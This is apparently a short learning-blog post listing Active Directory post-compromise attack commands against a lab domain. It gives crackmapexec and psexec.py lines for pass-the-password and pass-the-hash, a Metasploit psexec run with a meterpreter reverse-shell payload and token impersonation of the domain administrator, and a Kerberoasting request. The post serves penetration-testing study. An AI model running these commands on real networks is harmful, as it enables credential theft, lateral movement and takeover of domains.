 ```yaml
---
title: Active Directory Attacks, Post-Compromise attacks (Part 3)
date: 2023-10-23
categories: [Learning, Active Directory]
tags: [Active Directory, AD]
author: barabulkit
---
```


## Pass the Password

```shell
crackmapexec smb 192.168.1.0/24 -u Frank -d ARASAKA.local -p Mypassword123! --sam
```
 ![crackmapexec](/assets/img/acd/crackmapexec.png)

```shell
psexec.py 'arasaka/frank:Mypassword123!@192.168.1.104' 
```
  ![psexec](/assets/img/acd/psexecshell.png)

## Pass the Hash

```shell
crackmapexec smb 192.168.1.0/24 -u Frank -H 18721c3caef628a6080664923ed12367 --local-auth
psexec.py 'frank@192.168.1.104' -hashes aad3b435b51404eeaad3b435b51404ee:18721c3caef628a6080664923ed12367
```

## Token Impersonation

```shell
msfconsole
use exploit/windows/smb/psexec
set rhost 192.168.1.104
set smbdomain arasaka.local
set smbpass Mypassword123!
set smbuser Frank
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set lhost eth0
run
load incognito
impersonate_token ARASAKA\\Администратор
```

![tokenimpersonation](/assets/img/acd/tokenimpersonation.png)

## Kerberoasting 

```shell
GetUserSPNs.py arasaka.local/frank:Mypassword123! -dc-ip 192.168.1.100 -request
```

![kerberoasting](/assets/img/acd/kerberoasting.png)